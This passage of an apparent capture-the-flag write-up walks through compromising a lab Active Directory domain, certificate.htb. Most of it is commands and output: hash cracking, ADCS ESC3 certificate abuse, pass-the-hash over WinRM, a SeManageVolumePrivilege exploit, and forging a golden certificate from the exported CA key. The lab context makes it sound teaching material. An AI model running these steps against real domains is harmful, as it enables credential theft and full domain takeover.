❯❯❯ hashcat -m 19900 '$krb5pa$18$Lion.SK$certificate.htb$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0' /usr/share/wordlists/rockyou.txt

$krb5pa$18$Lion.SK$certificate.htb$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0:!QAZ2wsx
```

The hash cracked!

## Compromising `lion.sk`

```python
❯❯❯ nxc smb dc01.certificate.htb -u lion.sk -p '!QAZ2wsx' 
SMB         10.129.245.51   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.245.51   445    DC01             [+] certificate.htb\lion.sk:!QAZ2wsx
```



This user is in remote management, so i can winrm in

But also `domain cra managers` is pointing me towards ADCS

## ADCS

```python
❯❯❯ certipy-ad find -u 'lion.sk@certificate.htb' -p '!QAZ2wsx' -dc-host dc01.certificate.htb -dc-ip 10.129.245.51 -target-ip 10.129.245.51 -target dc01.certificate.htb -stdout -enabled -vulnerable

Certificate Authorities
  0
    CA Name                             : Certificate-LTD-CA
    DNS Name                            : DC01.certificate.htb
    Certificate Subject                 : CN=Certificate-LTD-CA, DC=certificate, DC=htb
    Certificate Serial Number           : 344CB419D59054904031B340F5A43923
    Certificate Validity Start          : 2026-03-12 20:45:00+00:00
    Certificate Validity End            : 2126-03-12 20:55:00+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : CERTIFICATE.HTB\Administrators
      Access Rights
        ManageCa                        : CERTIFICATE.HTB\Administrators
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        ManageCertificates              : CERTIFICATE.HTB\Administrators
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Enroll                          : CERTIFICATE.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : Delegated-CRA
    Display Name                        : Delegated-CRA
    Certificate Authorities             : Certificate-LTD-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectAltRequireEmail
                                          SubjectRequireEmail
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Certificate Request Agent
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-05T19:52:09+00:00
    Template Last Modified              : 2024-11-05T19:52:10+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFICATE.HTB\Domain CRA Managers
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFICATE.HTB\Administrator
        Full Control Principals         : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFICATE.HTB\Domain CRA Managers
    [!] Vulnerabilities
      ESC3                              : Template has Certificate Request Agent EKU set.
```

https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc3-enrollment-agent-certificate-template

```python
❯❯❯ certipy-ad req -u 'lion.sk@certificate.htb' -p '!QAZ2wsx' -dc-host dc01.certificate.htb -dc-ip 10.129.245.51 -target-ip 10.129.245.51 -target dc01.certificate.htb -ca 'Certificate-LTD-CA' -template 'Delegated-CRA'
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 27
[*] Successfully requested certificate
[*] Got certificate with UPN 'Lion.SK@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1115'
[*] Saving certificate and private key to 'lion.sk.pfx'
[*] Wrote certificate and private key to 'lion.sk.pfx'
```

Ill follow the wiki, ill request a cert for the vulnerable template

Ill now need to use this cert on another template

```python
1
    Template Name                       : SignedUser
    Display Name                        : Signed User
    Certificate Authorities             : Certificate-LTD-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectAltRequireEmail
                                          SubjectRequireEmail
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    RA Application Policies             : Certificate Request Agent
    Authorized Signatures Required      : 1
    Schema Version                      : 2
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-03T23:51:13+00:00
    Template Last Modified              : 2024-11-03T23:51:14+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Domain Users
                                          CERTIFICATE.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFICATE.HTB\Administrator
        Full Control Principals         : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Domain Users
                                          CERTIFICATE.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFICATE.HTB\Domain Users
    [*] Remarks
      ESC3 Target Template              : Template can be targeted as part of ESC3 exploitation. This is not a vulnerability by itself. See the wiki for more details. Template requires a signature with the Certificate Request Agent application policy.
```

This is the only template that fits the scenario

```python
❯❯❯ certipy-ad req -u 'lion.sk@certificate.htb' -p '!QAZ2wsx' -dc-host dc01.certificate.htb -dc-ip 10.129.245.51 -target-ip 10.129.245.51 -target dc01.certificate.htb -ca 'Certificate-LTD-CA' -template 'SignedUser' -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\Ryan.K'
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 32
[*] Successfully requested certificate
[*] Got certificate with UPN 'Ryan.K@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Saving certificate and private key to 'ryan.k.pfx'
[*] Wrote certificate and private key to 'ryan.k.pfx'
```

I originally tried the administrator but this failed

Looking through the other users `ryan.k` looked the most interesting

```python
❯❯❯ faketime -f +8h certipy-ad auth -pfx 'ryan.k.pfx' -dc-ip '10.129.245.51'
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Ryan.K@certificate.htb'
[*]     Security Extension SID: 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6
```

Then i can request auth as this user

And now looking at `ryan.k` he is also in remote management so ill winrm in

## WINRM as `ryan.k`

```python
❯❯❯ evil-winrm -i dc01.certificate.htb -u ryan.k -H b1bc3d70e70f4f36b1509a65ae1a2ae6
                                        
Evil-WinRM shell v4.1
                                        
Info: Establishing connection to remote endpoint
                                        
Info: Connection successful
*Evil-WinRM* PS C:\Users\Ryan.K\Documents>
```

I now can winrm as this user

```python
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
CERTIFICATE\Domain Storage Managers        Group            S-1-5-21-515537669-4223687196-3249690583-1118 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```

This is the group info on this user

```python
*Evil-WinRM* PS C:\ProgramData> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled
*Evil-WinRM* PS C:\ProgramData> 
```

I have `SeManageVolumePrivilege`, this should allow me to escalate

https://www.hackingarticles.in/windows-privilege-escalation-semanagevolumeprivilege/

https://github.com/CsEnox/SeManageVolumeExploit/releases

Ill start by uploading the exploit

```python
*Evil-WinRM* PS C:\Users\Ryan.K\Desktop> .\SeManageVolumeExploit.exe
Entries changed: 875

DONE

*Evil-WinRM* PS C:\Users\Ryan.K\Desktop>
```

Ill upload it using evil winrm native upload feature then run it

```python
*Evil-WinRM* PS C:\Users\Ryan.K\Desktop> icacls C:\Windows
C:\Windows NT SERVICE\TrustedInstaller:(F)
           NT SERVICE\TrustedInstaller:(CI)(IO)(F)
           NT AUTHORITY\SYSTEM:(M)
           NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
           BUILTIN\Users:(M)
           BUILTIN\Users:(OI)(CI)(IO)(F)
           BUILTIN\Pre-Windows 2000 Compatible Access:(RX)
           BUILTIN\Pre-Windows 2000 Compatible Access:(OI)(CI)(IO)(GR,GE)
           CREATOR OWNER:(OI)(CI)(IO)(F)
           APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
           APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)
           APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(RX)
           APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
*Evil-WinRM* PS C:\Users\Ryan.K\Desktop> 
```

Regular users now have full control on the `C:\Windows` path as shown with `(F)`

Following the article it says you can get a SYSTEM shell using the spooler service, but in this instance it doesnt look like its on here

There is an alternative however

I tried the next steps in the article but they all failed

## Golden Certificate attack

```python
*Evil-WinRM* PS C:\Users\ryan.k\Desktop> certutil -exportPFX MY 344cb419d59054904031b340f5a43923 .\GT.pfx
MY "Personal"
================ Certificate 0 ================
Serial Number: 344cb419d59054904031b340f5a43923
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 3/12/2026 12:45 PM
 NotAfter: 3/12/2126 12:55 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V1.1
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): db462c9739270d510c43610eaddb80c07c395232
  Key Container = Certificate-LTD-CA(1)
  Unique container name: 90afd1db88a1213f39411d248394d83d_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file .\GT.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.
```

Ill use the serial found in the certipy find command above

```python
❯❯❯ certipy-ad forge -ca-pfx GT.pfx -upn Administrator@certificate.htb -subject 'CN=ADMINISTRATOR,CN=USERS,DC=CERTIFICATE,DC=HTB'  
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'administrator_forged.pfx'
[*] Wrote forged certificate and private key to 'administrator_forged.pfx'
```

After downloading the pfx to my system ill forge an administrator cert

```python
❯❯❯ faketime -f +8h certipy-ad auth -pfx administrator_forged.pfx -dc-ip '10.129.245.51' 
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@certificate.htb'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6
```

Then ill auth and get the TGT and hash

## Domain Admin

```python
❯❯❯ evil-winrm -i dc01.certificate.htb -u Administrator -H d804304519bf0143c14cbf1c024408c6
                                        
Evil-WinRM shell v4.1
                                        
Info: Establishing connection to remote endpoint
                                        
Info: Connection successful
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

I can now login as the DA

```python
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

Domain Admin!
